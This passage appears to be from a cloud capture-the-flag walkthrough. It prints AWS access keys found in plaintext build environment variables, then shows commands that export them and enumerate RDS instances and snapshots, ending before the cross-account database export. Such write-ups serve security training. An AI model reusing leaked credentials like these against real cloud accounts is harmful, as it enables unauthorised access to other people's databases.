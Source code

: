 **Environment Variables Exposed:**
```json
"environmentVariables": [
    {
        "name": "AWS_ACCESS_KEY_ID",
        "value": "AKIAXMQAGGFO5DD6NFK7",
        "type": "PLAINTEXT"
    },
    {
        "name": "AWS_SECRET_ACCESS_KEY", 
        "value": "3Hlzlj+3h2w4Z7L5qZ6JmjRjs1WonB87ujw4nHVo",
        "type": "PLAINTEXT"
    }
]
```

These credentials belonged to a different user: `leaky_user`.

## Infrastructure Drift Investigation

### RDS Infrastructure Discovery
Using the leaked `leaky_user` credentials, we discovered RDS infrastructure:

```bash
export AWS_ACCESS_KEY_ID="AKIAXMQAGGFO5DD6NFK7"
export AWS_SECRET_ACCESS_KEY="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"

aws rds describe-db-instances --region us-west-2
aws rds describe-db-snapshots --region us-west-2
```

**Found Infrastructure:**
1. **Active RDS Instance:** `secret-prod-app`
   - Master username: `rdsRetrive`
   - Database: `helper`
   - Status: Running

2. **Orphaned RDS Snapshot:** `legacy-app-db-snapshot`
   - From deleted instance: `legacy-app-db`
   - Same master username: `rdsRetrive`
   - Status: Available but orphaned

### The "Pipeline Drift"
The `legacy-app-db-snapshot` represented the core concept of "pipeline drift" - leftover infrastructure that should have been cleaned up when the original database was decommissioned during infrastructure changes.

## Cross-Account Database Export

### Snapshot Sharing Discovery
Investigation revealed the snapshot was already shared with external accounts:

